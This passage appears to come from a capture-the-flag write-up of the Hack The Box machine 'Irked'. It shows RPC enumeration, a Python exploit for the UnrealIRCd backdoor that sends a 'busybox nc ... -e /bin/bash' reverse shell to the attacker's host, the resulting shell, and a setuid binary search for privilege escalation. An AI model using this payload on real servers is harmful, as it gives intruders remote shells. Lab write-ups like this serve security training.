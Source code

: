 ```console
$ rpcinfo irked.htb
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100024    1    udp       0.0.0.0.174.65         status     107
    100024    1    tcp       0.0.0.0.210.216        status     107
    100024    1    udp6      ::.132.3               status     107
    100024    1    tcp6      ::.212.197             status     107
```

## RCE

Here's a modified version of [this PoC](https://github.com/geek-repo/UnrealIRCd-3.2.8.1):

```python
import socket
ip="10.10.10.117"
port=6697
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
a=s.recv(1024)
a=b"AB;busybox nc 10.10.14.10 443 -e /bin/bash"
s.sendall(a)
```

```console
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.117] 38035
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

## PE

First, I'll check for setuid executables:

```console
ircd@irked:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
```